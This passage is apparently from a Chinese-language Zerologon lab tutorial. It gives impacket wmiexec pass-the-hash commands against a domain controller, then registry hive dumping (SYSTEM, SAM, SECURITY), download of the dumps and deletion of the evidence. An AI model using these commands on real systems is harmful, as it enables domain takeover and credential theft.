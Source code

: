 4. **以域管身份连接DC**
    
    使用 impacket 中的 wmiexec.py 脚本进行横向连接
    
    ```
    python3  wmiexec.py  域/administrator@目标IP  -hashes  administrator账号的哈希值
    
    python3  wmiexec.py test.org/administrator@192.168.21.132 -hashes :18edd0cc3227be3bf61ce198835a1d97
    ```
    
    ![Untitled](Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E%2051e6b1deec904700ab4e89dcc473305c/Untitled%2016.png)
    
    此处若一切输入正确，确无法连接，则可能已经发生脱域，可以把域名去掉连接试试
    
    ```
    python3  wmiexec.py administrator@192.168.21.132 -hashes :18edd0cc3227be3bf61ce198835a1d97
    ```
    
5. ****恢复域控HASH****
    
    获取DC注册表信息中域控原始HASH，可以利用 Impacket 包中的 [wmiexec.py](http://wmiexec.py)、psexec.py 工具获取，以 wmiexec.py 为例，命令中进行了 HASH 传递，凭证是刚刚获取的域管 HASH：
    
    ```
    # 获取注册表转储文件，默认存在目标机C:\目录下
    # 目标机中文系统会提示解码错误，不影响使用
    # /y:强制覆盖已存在文件，避免目标机C:\目录下存在同名文件，命令会询问是否覆盖，半交互环境程序会卡住
    C:\>reg save HKLM\SYSTEM system.hive /y    
    C:\>reg save HKLM\SAM sam.hive /y         
    C:\>reg save HKLM\SECURITY security.hive /y
    
    # 将转储文件，下载到本地
    C:\>lget system.hive                    
    C:\>lget sam.hive
    C:\>lget security.hive
    
    # 删除目标机上的转储文件
    C:\>del /f system.hive                 
    C:\>del /f sam.hive
    C:\>del /f security.hive
    ```
    